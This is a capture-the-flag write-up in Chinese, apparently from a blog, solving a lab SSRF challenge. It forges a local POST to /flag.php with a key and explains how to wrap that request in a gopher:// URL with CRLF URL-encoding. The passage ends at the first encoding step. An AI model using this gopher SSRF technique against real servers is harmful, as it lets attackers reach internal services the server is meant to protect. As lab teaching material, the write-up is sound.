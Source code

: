 发现了 我们需要通过 127.0.0.1 访问 然后post的内容为 key的内容 key是什么呢

因为他需要从本地访问 并且漏洞为ssrf  我们可以构造本地访问

所以我们去看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/130db48a3ad448096b049a938831ac5f.png" alt="" style="max-height:335px; box-sizing:content-box;" />


发现存储的是key的变量

每个人不一样

```cobol
key=d4c37651847648ede83ed438dcb77f1d
```

这里的考点是 需要伪造一个从本地发送的POST包 并且包含key 然后可以获取flag

我们先写一个post格式

```cobol
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
 
key=d4c37651847648ede83ed438dcb77f1d
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/2f1d55b4eab8f9ecb335a84aea90d9a8.png" alt="" style="max-height:172px; box-sizing:content-box;" />


这里的length 需要确定是多少

这里我们需要使用万能协议 gopher协议

用法

```ruby
URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
```

这里的tcp数据流我们需url编码

```cobol
1、问号（？）需要转码为URL编码，也就是%3f
2、回车换行要变为%0d%0a,但如果直接用工具转，可能只会有%0a
3、在HTTP包的最后要加%0d%0a，代表消息结束（具体可研究HTTP包结束）
```

所以我们需要将里面的 %0a百年未 %0d%0a 并且末尾也要加上

我们先来第一次url编码

```cobol
POST%20/flag.php%20HTTP/1.1%0AHost:%20127.0.0.1:80%0AContent-Type:%20application/x-www-form-urlencoded%0AContent-Length:%2036%0A%0Akey=d4c37651847648ede83ed438dcb77f1d
```
